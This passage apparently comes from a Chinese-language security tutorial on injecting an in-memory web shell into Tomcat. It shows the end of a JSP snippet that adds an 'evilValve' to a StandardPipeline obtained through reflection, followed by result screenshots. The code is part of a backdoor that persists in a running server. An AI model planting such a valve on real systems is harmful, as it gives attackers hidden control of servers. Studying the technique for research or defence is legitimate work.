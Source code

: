 ```bash
                PrintWriter out = response.getWriter();
                out.println(output);
                out.flush();
                out.close();
                this.getNext().invoke(request, response);
            }
        }
    };
    evilStandardPipeline.addValve(evilValve);
    out.println("inject success");
%>
```

上面的这个是采用了从`StandardContext`反射获取`StandardPipeline`的方式，效果如下：

[![](assets/1708482732-ef366c403896ea6d10f5db69b4a8e952.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211003503-571d92b8-c832-1.jpeg)

[![](assets/1708482732-7d5e6b6525baf38d1ec02e674ab05851.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240211003503-57529404-c832-1.jpeg)
